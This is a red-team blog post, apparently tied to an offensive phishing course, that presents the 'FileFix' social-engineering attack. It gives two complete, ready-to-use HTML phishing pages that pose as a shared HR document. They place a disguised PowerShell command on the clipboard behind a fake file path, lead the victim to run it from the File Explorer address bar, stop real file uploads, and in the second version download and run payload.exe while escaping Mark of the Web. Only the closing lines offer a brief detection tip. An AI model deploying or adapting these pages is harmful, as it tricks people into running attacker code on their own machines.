Presenting an alternate method to the traditional ClickFix attack<!-- end -->.

# Introduction

Over the past few weeks, I've been working on the upcoming update for the [Offensive Phishing Operations Course](https://maldevacademy.com/phishing-course). The update contains some modules related to ClickFix attack, which prompted me to dive deeper into the social engineering technique. If you've been living under a rock for the past year, ClickFix is a social engineering attack that prompts users to unknowingly execute malicious code, usually through the Run Dialog (Windows Key + R).

The simplicity of this technique makes it funny, yet it's been effective. I had written a blog post in mid-2022 about social engineering that mentioned initial access through copy-pasting malicious commands into the Run Dialog but ended up deleting it because I thought it was far too basic and impractical. I admit I was wrong.



With that said, my primary issue with the current ClickFix attacks is that they heavily rely on the Run Dialog and I wanted to find an alternative method that may be just as effective. Therefore in this blog post, I'll present an interesting method to social engineer users into executing OS commands without leaving the browser. I'll be referring to this method as *FileFix Attack*, but feel free to call it whatever you want. <a href="https://x.com/HackingLZ/status/1936412263751016623">It's not like ClickFix is a good name anyways</a>.

# File Upload Functionality

It's safe to assume that everyone reading this blog has previously uploaded a file to a website. Creating an upload file button simply requires an `input` HTML element with the `type` attribute set to `file`.

```html
<input type="file" />
```



Clicking the "Choose File" button, a File Explorer window opens up, again, nothing special so far.



But at this point I remembered that the File Explorer Address Bar can be used to execute OS commands. I wrongly assumed that this would be blocked by the browser and it wasn't.


<br>



Looking at Chrome's process tree, we can see that `cmd.exe` was spawned by one of Chrome's many processes.



# FileFix Attack

Since we now know that it's possible to execute commands via the File Explorer address bar through the browser's file upload functionality, we need pretext to get the user to paste our command there. Given that File Explorer is commonly associated with accessing files, our phishing page can claim that a file has been shared with the user and instruct them to use the address bar in File Explorer to locate it.

The phishing page includes an "Open File Explorer" button that, when clicked, launches File Explorer through the file upload functionality and copies the PowerShell command to the clipboard. Conveniently enough, the address bar can be auto-higlighted using `CTRL + L` or `ALT + D`, so we'll make sure we mention this in our instructions. Our instructions will be as follows:

```md
To access the file, follow these steps:

1. Copy the file path below:

   `C:\company\internal-secure\filedrive\HRPolicy.docx`

2. Open File Explorer and select the address bar (CTRL + L)

3. Paste the file path and press Enter
```

Additionally, our PowerShell command will concatenate the dummy file path after a comment in order to hide the command and show the file path instead.

```
Powershell.exe -c ping example.com # C:\\company\\internal-secure\\filedrive\\HRPolicy.docx
```

With that said, here's the final HTML page:

```html
<!DOCTYPE html>
<head>
  <title>mr.d0x shared a file with you</title>
  <style>
    body {
      background-color: #f2f2f2;
      font-family: 'Segoe UI', sans-serif;
      margin: 0;
      padding: 40px 0;
      display: flex;
      justify-content: center;
      align-items: flex-start;
      min-height: 100vh;
    }

    .container {
      background-color: #ffffff;
      width: 560px;
      border-radius: 6px;
      box-shadow: 0 4px 10px rgba(0, 0, 0, 0.1);
      border: 1px solid #dcdcdc;
      text-align: center;
    }

    .header {
      padding: 40px 30px 10px;
    }

    .header img {
      width: 36px;
      margin-bottom: 25px;
    }

    .header h2 {
      font-size: 20px;
      color: #2f2f2f;
      margin: 0;
    }

    .timestamp {
      font-size: 13px;
      color: #7a7a7a;
      margin-top: 6px;
    }

    .instructions {
      text-align: left;
      padding: 25px 40px 10px;
      font-size: 15px;
      color: #333333;
      line-height: 1.6;
    }

    .instructions ol {
      margin: 0;
      padding-left: 20px;
    }

    .code-block {
    background-color: #f1f1f1;
    border: 1px solid #ccc;
    border-radius: 4px;
    padding: 8px 12px;
    font-family: Consolas, monospace;
    font-size: 14px;
    margin-top: 8px;
    position: relative;
    transition: background-color 0.3s;
    cursor: pointer;
    user-select: none;
    }


    .code-block:hover {
      background-color: #e6e6e6;
    }

    .code-block::after {
      content: "Copy";
      position: absolute;
      top: 50%;
      right: 12px;
      transform: translateY(-50%);
      font-size: 12px;
      color: #0078d4;
      opacity: 0;
      transition: opacity 0.2s;
    }

    .code-block:hover::after {
      opacity: 1;
    }

    .code-block.clicked::after {
      content: "Copied";
      color: #107c10;
    }

    #fileExplorer {
      background-color: #0078d4;
      color: white;
      border: none;
      padding: 12px 30px;
      font-size: 15px;
      border-radius: 4px;
      margin: 30px 0 40px;
      cursor: pointer;
    }

    #fileExplorer:hover {
      background-color: #005ea2;
    }

    .footer {
      font-size: 11.5px;
      color: #6b6b6b;
      background-color: #f7f7f7;
      padding: 12px 24px;
      border-top: 1px solid #dcdcdc;
      display: flex;
      justify-content: space-between;
      align-items: center;
    }

    .footer img {
      height: 16px;
    }

    .footer a {
      color: #6b6b6b;
      text-decoration: none;
    }

    .footer a:hover {
      text-decoration: underline;
    }
  </style>
</head>
<body>

  <div class="container">
    <div class="header">
      <svg fill="#000000" width="50px" height="50px" viewBox="0 0 32 32" version="1.1" xmlns="http://www.w3.org/2000/svg">
      <path d="M0 25.472q0 2.368 1.664 4.032t4.032 1.664h18.944q2.336 0 4-1.664t1.664-4.032v-8.192l-3.776 3.168v5.024q0 0.8-0.544 1.344t-1.344 0.576h-18.944q-0.8 0-1.344-0.576t-0.544-1.344v-18.944q0-0.768 0.544-1.344t1.344-0.544h9.472v-3.776h-9.472q-2.368 0-4.032 1.664t-1.664 4v18.944zM5.696 19.808q0 2.752 1.088 5.28 0.512-2.944 2.24-5.344t4.288-3.872 5.632-1.664v5.6l11.36-9.472-11.36-9.472v5.664q-2.688 0-5.152 1.056t-4.224 2.848-2.848 4.224-1.024 5.152zM32 22.080v0 0 0z"></path>
      </svg>
      <h2>mr.d0x made "HRPolicy.docx" available to you</h2>
      <div class="timestamp">06/20/2025 10:22:45 AM</div>
    </div>

    <div class="instructions">
      <p>To access <strong>HRPolicy.docx</strong>, follow these steps:</p>
      <ol>
        <li style="margin-bottom: 10px;">
          Copy the file path below
          <div class="code-block" id="path" onclick="this.classList.add('clicked')">
            C:\company\internal-secure\filedrive\HRPolicy.docx
          </div>
        </li>
        <li style="margin-bottom: 10px;">Open File Explorer and select the address bar (<strong>CTRL + L</strong>)</li>
        <li style="margin-bottom: 10px;">Paste the file path and press <strong>Enter</strong></li>
      </ol>
    </div>

    <input type="file" id="fileInput" style="display: none;">
    <button id="fileExplorer">Open File Explorer</button>

    <div class="footer">
      
    </div>
  </div>
    <script>
    const fileInput = document.getElementById('fileInput');
    const fileExplorer = document.getElementById('fileExplorer');
    const path = document.getElementById('path');

    // Copy the powershell command if they click on the dummy file path
    // In case the user tries to be smart and open file explorer manually
    path.addEventListener('click', function() {
        navigator.clipboard.writeText("Powershell.exe -c ping example.com                                                                                                                # C:\\company\\internal-secure\\filedrive\\HRPolicy.docx                                                                    ");
    });

    // Copy powershell command & open file explorer
    fileExplorer.addEventListener('click', function() {
        navigator.clipboard.writeText("Powershell.exe -c ping example.com                                                                                                                # C:\\company\\internal-secure\\filedrive\\HRPolicy.docx                                                                    ");

      fileInput.click();
    });

  // Block any attempted file uploads
  fileInput.addEventListener('change', () => {
    alert("Please follow the stated instructions.");
    fileInput.value = "";
    setTimeout(() => fileInput.click(), 500);
});
  </script>
</body>
</html>
```

<br>



## Blocking File Selection

The user may also intentionally or accidentally select a file for upload, because at the end of the day, that is the intended functionality of using `<input type="file">`. Notice that our code contains the lines below to block from uploading by intercepting the file selection event and immediately clearing the input, showing a message and attempting to re-open the File Explorer window again.


```javascript
fileInput.addEventListener('change', () => {
  alert("Please follow the stated instructions.");
  fileInput.value = "";
  setTimeout(() => fileInput.click(), 500);
});
```



<br>



## FileFix Demo

[Higher quality here](./demo.mp4).



# FileFix Variation 2

Upon doing further testing, I also realized another interesting behavior exhibited by the File Explorer execution method. Executable files (e.g. `.exe`) executed through the File Explorer's address bar **have its Mark of The Web (MOTW) attribute removed**. In the images below, we have `payload.exe` which starts off with a MOTW attribute indicating it was downloaded from an external source. However, once executed through the File Explorer's address bar, the executable is launched and the MOTW attribute is no longer there.


<br>


<br>



<br>



I realized there is a potential method of weaponizing this by having the "Open File Explorer" button download a file (e.g. `payload.exe`), copy `%USERPROFILE%\Downloads\payload.exe` to the clipboard, and open the File Explorer window. Assuming file downloads are saved to `%USERPROFILE%\Downloads` (which isn't guaranteed since users can alter the downloads folder location), this should launch our payload.

However, there is a downside to this variation that should be considered. Microsoft Defender SmartScreen & Google Safebrowsing will usually warn users prior to saving executables so more clicks might be required from the user to make it work. However, I still included this method in case someone finds a good use for it or wants to use in a different social engineering scenario.

```html
<!DOCTYPE html>
<head>
  <title>mr.d0x shared a file with you</title>
  <style>
    body {
      background-color: #f2f2f2;
      font-family: 'Segoe UI', sans-serif;
      margin: 0;
      padding: 40px 0;
      display: flex;
      justify-content: center;
      align-items: flex-start;
      min-height: 100vh;
    }

    .container {
      background-color: #ffffff;
      width: 560px;
      border-radius: 6px;
      box-shadow: 0 4px 10px rgba(0, 0, 0, 0.1);
      border: 1px solid #dcdcdc;
      text-align: center;
    }

    .header {
      padding: 40px 30px 10px;
    }

    .header img {
      width: 36px;
      margin-bottom: 25px;
    }

    .header h2 {
      font-size: 20px;
      color: #2f2f2f;
      margin: 0;
    }

    .timestamp {
      font-size: 13px;
      color: #7a7a7a;
      margin-top: 6px;
    }

    .instructions {
      text-align: left;
      padding: 25px 40px 10px;
      font-size: 15px;
      color: #333333;
      line-height: 1.6;
    }

    .instructions ol {
      margin: 0;
      padding-left: 20px;
    }

    .code-block {
    background-color: #f1f1f1;
    border: 1px solid #ccc;
    border-radius: 4px;
    padding: 8px 12px;
    font-family: Consolas, monospace;
    font-size: 14px;
    margin-top: 8px;
    position: relative;
    transition: background-color 0.3s;
    cursor: pointer;
    user-select: none;
    }


    .code-block:hover {
      background-color: #e6e6e6;
    }

    .code-block::after {
      content: "Copy";
      position: absolute;
      top: 50%;
      right: 12px;
      transform: translateY(-50%);
      font-size: 12px;
      color: #0078d4;
      opacity: 0;
      transition: opacity 0.2s;
    }

    .code-block:hover::after {
      opacity: 1;
    }

    .code-block.clicked::after {
      content: "Copied";
      color: #107c10;
    }

    #fileExplorer {
      background-color: #0078d4;
      color: white;
      border: none;
      padding: 12px 30px;
      font-size: 15px;
      border-radius: 4px;
      margin: 30px 0 40px;
      cursor: pointer;
    }

    #fileExplorer:hover {
      background-color: #005ea2;
    }

    .footer {
      font-size: 11.5px;
      color: #6b6b6b;
      background-color: #f7f7f7;
      padding: 12px 24px;
      border-top: 1px solid #dcdcdc;
      display: flex;
      justify-content: space-between;
      align-items: center;
    }

    .footer img {
      height: 16px;
    }

    .footer a {
      color: #6b6b6b;
      text-decoration: none;
    }

    .footer a:hover {
      text-decoration: underline;
    }
  </style>
</head>
<body>

  <div class="container">
    <div class="header">
      <svg fill="#000000" width="50px" height="50px" viewBox="0 0 32 32" version="1.1" xmlns="http://www.w3.org/2000/svg">
      <path d="M0 25.472q0 2.368 1.664 4.032t4.032 1.664h18.944q2.336 0 4-1.664t1.664-4.032v-8.192l-3.776 3.168v5.024q0 0.8-0.544 1.344t-1.344 0.576h-18.944q-0.8 0-1.344-0.576t-0.544-1.344v-18.944q0-0.768 0.544-1.344t1.344-0.544h9.472v-3.776h-9.472q-2.368 0-4.032 1.664t-1.664 4v18.944zM5.696 19.808q0 2.752 1.088 5.28 0.512-2.944 2.24-5.344t4.288-3.872 5.632-1.664v5.6l11.36-9.472-11.36-9.472v5.664q-2.688 0-5.152 1.056t-4.224 2.848-2.848 4.224-1.024 5.152zM32 22.080v0 0 0z"></path>
      </svg>
      <h2>mr.d0x made "HRPolicy.docx" available to you</h2>
      <div class="timestamp">06/20/2025 10:22:45 AM</div>
    </div>

    <div class="instructions">
      <p>To access <strong>HRPolicy.docx</strong>, follow these steps:</p>
      <ol>
        <li style="margin-bottom: 10px;">
          Copy the file path below
          <div class="code-block" id="path" onclick="this.classList.add('clicked')">
            C:\company\internal-secure\filedrive\HRPolicy.docx
          </div>
        </li>
        <li style="margin-bottom: 10px;">Open File Explorer and select the address bar (<strong>CTRL + L</strong>)</li>
        <li style="margin-bottom: 10px;">Paste the file path and press <strong>Enter</strong></li>
      </ol>
    </div>

    <input type="file" id="fileInput" style="display: none;">
    <button id="fileExplorer">Open File Explorer</button>

    <div class="footer">
      
    </div>
  </div>
    <script>
    const fileInput = document.getElementById('fileInput');
    const fileExplorer = document.getElementById('fileExplorer');
    const path = document.getElementById('path');


    path.addEventListener('click', function () {
        navigator.clipboard.writeText("%USERPROFILE%\\Downloads\\payload.exe # This will still execute");
    });

    fileExplorer.addEventListener('click', function () {
      // Keep them in this order

      // Copy to clipboard
      navigator.clipboard.writeText("%USERPROFILE%\\Downloads\\payload.exe # This will still execute");

      // Open file picker
      fileInput.click();

      // Dowload a file
      const url = 'https://example.com/payload.exe';
      const a = document.createElement('a');
      a.href = url;
      // a.download = 'payload.exe';
      document.body.appendChild(a);
      a.click();
      document.body.removeChild(a);
    });


  fileInput.addEventListener('change', () => {
    alert("Please follow the stated instructions.");
    fileInput.value = "";
    setTimeout(() => fileInput.click(), 500);
});
  </script>
</body>
</html>
```

## Conclusion

With the current surge in ClickFix attacks, it's not hard to see this technique being used to trick a user into unknowingly executing a malicious command. It's worth monitoring browsers for any suspicious child processes (e.g. `cmd.exe`, `powershel.exe`, `mshta.exe`).

If you're interested in ClickFix attacks, the new update of Offensive Phishing Operations course has the [ClickFix: Run Dialog Alternatives](https://maldevacademy.com/phishing-course/syllabus) module.